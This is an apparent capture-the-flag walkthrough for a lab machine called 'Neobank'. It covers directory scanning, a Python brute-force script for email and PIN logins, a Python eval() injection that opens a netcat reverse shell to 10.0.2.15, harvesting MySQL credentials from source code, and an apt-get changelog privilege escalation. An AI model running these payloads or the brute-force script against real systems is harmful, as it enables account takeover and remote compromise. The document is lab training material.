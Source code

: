 # Neobank 

## Directory Scan
```console
┌──(alienum㉿kali)-[~]
└─$ gobuster dir -k -u http://10.0.2.121:5000/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
/login
/logout
/otp
/qr
/withdraw
/email_list
```
## Retreive emails
Under the /email_list you can retrieve the emails

## Brute force
```console
┌──(alienum㉿kali)-[~]
└─$ cat /usr/share/wordlists/rockyou.txt | grep "^[0-9]" > pins.txt

┌──(alienum㉿kali)-[~]
└─$ nano neobank-bf.py
import requests
import sys
url = 'http://10.0.2.121:5000/login'
with open('/home/alienum/Desktop/emails.txt') as users:
  for u in users:
    with open('/home/alienum/Desktop/pins.txt') as pins:
       for p in pins:
          user = {"email":u.strip(),"pin":p.strip()}
          r =  requests.post(url,data = user)
          if len(r.cookies) != 0:
             print('~~~~~~~~~~~~~~~~~~~')
             print('Credentials found!!')
             print('~~~~~~~~~~~~~~~~~~~')
             print('[+] Username : '+ u.strip())
             print('[+] Password : '+ p.strip())
             sys.exit()
             
┌──(alienum㉿kali)-[~]
└─$ python3 neobank-bf.py
[+] Username : z***@neobank.vln
[+] Password : 2*****
```
## OTP google authenticator
scan the qrcode and insert the otp code

## Exploit eval() python function 
```console
__import__('os').system('nc -e /bin/sh 10.0.2.15 4444')
```
## MySQL enumeration find banker credentials
```console
cat /var/www/html/main.py
banker:neobank1
mysql -u banker -pneobank1
use bank;
select * from system;
banker:a********
```
## GTFObins
```console
sudo apt-get changelog apt
!/bin/sh
```
